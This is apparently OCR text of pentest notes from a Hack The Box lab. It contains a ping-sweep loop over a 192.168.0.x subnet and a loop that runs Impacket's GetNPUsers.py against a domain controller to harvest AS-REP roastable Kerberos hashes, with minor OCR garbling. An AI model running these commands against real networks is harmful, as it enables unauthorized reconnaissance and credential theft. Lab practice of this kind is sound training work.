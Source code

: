 **#ping all the 192.168.0.x subnet
**for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done; 

**#loops over a file "users" executes.py  
**for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done 
